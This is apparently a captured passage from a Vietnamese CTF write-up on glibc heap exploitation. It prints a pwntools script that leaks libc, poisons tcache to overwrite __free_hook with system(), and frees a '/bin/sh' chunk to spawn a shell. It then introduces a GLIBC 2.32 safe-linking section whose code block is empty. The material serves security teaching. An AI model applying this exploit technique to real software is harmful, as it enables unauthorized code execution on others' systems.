 ```python=
        # return p

host = ''
port = 0

if args.REMOTE:
    # p = remote(host,port,ssl=True)
    p = remote(host,port)
else:
    p = process([exe.path])
GDB()

# Libc leak using out of bound
rd(-1872)
ru(b'Data: ')
lib = u64(r(6)+b'\0\0')
libc.address = lib - 0x26f30
info("Libc leak: "+hex(lib))
info("Libc base: "+hex(libc.address))
hook = libc.address + 0x1c5b28

# Using Hook Overwrite for shell
# This chunk for heap overflow
add(0, 0x50, b'a'*8)

# These chunk for poisoning
add(2, 0x50, b'b'*8)
add(3, 0x50, b'c'*8)

# Overite size note index 0
add(-4, 0x50, b'a'*8)
# Now, the size of note[0] is overwritten resulting in the heap overflow from chunk[0] to chunk[2] & [3]

# Remove chunk[3] first for the later allocation for /bin/sh
rm(3)
# Remove chunk[2] for the first allocation at hook
rm(2)

# Payload for the overwriting
p0 = flat(b'a'*0x58, 0x51, hook)

# Heap overflow -> overwrite the forward pointer of chunk 2 (replace &chunk[3] by hook address)
ed(0, p0)
# GDB()
# Remember not to allocate at idx 0 and 1 because notesize is now bring the pointer of the chunk[-4]
# Allocate for address of /bin/sh (the later freed chunk)
add(2, 0x50, b'/bin/sh\0')
# Allocate chunk 2 for hook overwrite to system (the first freed chunk now is replaced by free hook)
add(3, 0x50, p64(libc.sym.system))

# Free now will call free_hook(now is system) and the first arg is address of /bin/sh
rm(2)
p.interactive()
```
---
#### 2.2 GLIBC 2.32
- Tại phiên bản này đã được thêm vào Tcache và có cơ chế bảo vệ **Safe Linking** và **Malloc Alignment Tcache** với nguyên lý hoạt động đã được nêu ở trên nên ta sẽ có thêm 2 hàm `gen()` và `de()` được thêm vào trong script.
```python3=
```
